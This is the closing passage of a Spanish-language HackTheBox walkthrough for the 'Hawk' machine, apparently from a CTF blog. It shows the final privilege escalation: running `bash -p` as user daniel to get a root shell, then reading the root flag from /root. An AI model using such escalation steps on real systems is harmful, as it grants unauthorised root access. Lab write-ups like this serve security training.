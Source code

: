 Ya sólo nos queda ejecutar con el usuario daniel el comando `bash -p` el cual nos otorga una bash con privilegio de root. la flag de root la encontramos en el directorio `/root`

```bash
daniel@hawk:/var/www/html$ bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt
299957dc14343d217***************
```

Hemos completado la máquina **Hawk** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/Hawk/pwned.png">

